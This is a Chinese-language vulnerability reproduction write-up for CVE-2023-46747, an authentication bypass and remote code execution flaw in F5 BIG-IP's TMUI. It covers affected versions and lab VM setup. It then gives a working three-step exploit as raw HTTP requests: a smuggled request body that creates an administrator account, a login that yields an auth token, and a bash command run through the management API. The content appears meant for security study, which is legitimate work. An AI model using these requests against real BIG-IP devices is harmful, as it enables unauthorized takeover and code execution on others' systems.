



## F5 BIG-IP 远程代码执行漏洞(CVE-2023-46747)

## 漏洞描述

**F5 BIG-IP 远程代码执行漏洞(CVE-2023-46747)**，未经授权的远程攻击者通过管理端口或自身IP地址访问BIG-IP系统，利用此漏洞可能绕过身份认证，导致在暴露流量管理用户界面（TMUI）的 F5 BIG-IP 实例上执行任意代码。

## 影响版本

```
F5 BIG-IP <= 17.1.0
16.1.0 <= F5 BIG-IP <= 16.1.4
15.1.0 <= F5 BIG-IP <= 15.1.10
14.1.0 <= F5 BIG-IP <= 14.1.5
13.1.0 <= F5 BIG-IP <= 13.1.5
```

## 环境下载

```
https://my.f5.com/manage/s/downloads?productFamily=BIG-IP&productLine=big-ip_v15.x&version=15.1.8&container=Virtual-Edition&files=BIGIP-15.1.8-0.0.7.ALL-vmware.ova&locations=JAPAN

链接：https://pan.baidu.com/s/1zLMXJCKtZtzIxCQGoxwPgg 
提取码：ksdn 
```

搭建方式很简单，下载BIGIP-15.1.8-0.0.7.ALL-vmware.ova，接着用vm打开ova即可

搭建过程 [F5 WMware虚拟机环境搭建-BIG-IP Virtual Edition 11.3.0-CSDN博客](https://blog.csdn.net/ice_age1/article/details/49998059)

重置web密码

```
进入tmsh模式 敲击
modify auth user admin password admin
```

搭建成功页面


## 漏洞复现

### 第一步 发送 TMUI模块的请求

当发送到F5 BIG-IP TMUI模块的请求（例如登陆页面/tmui/login.jsp）中，包含一个类似值为 "xxx, chunked" 的 "Transfer-Encoding" 头，并且请求体内容满足特定内容时，漏洞会被触发。

&name=adminqq&name_before=&passwd=admin789456 参数填入创建账户

```
POST /tmui/login.jsp HTTP/1.1
Host: 192.168.127.146
Content-Type: application/x-www-form-urlencoded


204		
HTTP/1.1/tmui/Control/form	127.0.0.1	localhost	localhostPTmui-DubbufBBBBBBBBBBB
REMOTEROLE0�	localhostadminq_timenow=a&_timenow_before=&handler=%2ftmui%2fsystem%2fuser%2fcreate&&&form_page=%2ftmui%2fsystem%2fuser%2fcreate.jsp%3f&form_page_before=&hideObjList=&_bufvalue=eIL4RUnSwXYoPUIOGcOFx2o00Xc%3d&_bufvalue_before=&systemuser-hidden=[["Administrator","[All]"]]&systemuser-hidden_before=&name=adminqq&name_before=&passwd=admin789456&passwd_before=&finished=x&finished_before=�
0
```




### 第二步 获取用户token

```
POST /mgmt/shared/authn/login HTTP/1.1
Host: 192.168.127.146
Content-Length: 22
Content-Type: application/x-www-form-urlencoded

 {"username":"admin", "password":"admin789456"}
```




### 第三步 执行命令

将获取到得token带入`X-F5-Auth-Token`中，在通过`/mgmt/tm/util/bash` 执行命令

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: 192.168.127.146
Connection: keep-alive
Content-Length: 22
X-F5-Auth-Token:ICGZXJJROASFRPWYZF3EAQFCGN

 {"command":"run","utilCmdArgs":"-c whoami"}
```




### 参考链接

```
https://mp.weixin.qq.com/s/iN7rlJJaI4sl-fiL0eMXsQ
https://github.com/projectdiscovery/nuclei-templates/blob/56d79688e0d2ebce5b8939961946f4f32e663700/http/cves/2023/CVE-2023-46747.yaml
https://mp.weixin.qq.com/s/wUoBy7ZiqJL2CUOMC-8Wdg
https://blog.csdn.net/ice_age1/article/details/49998059
```

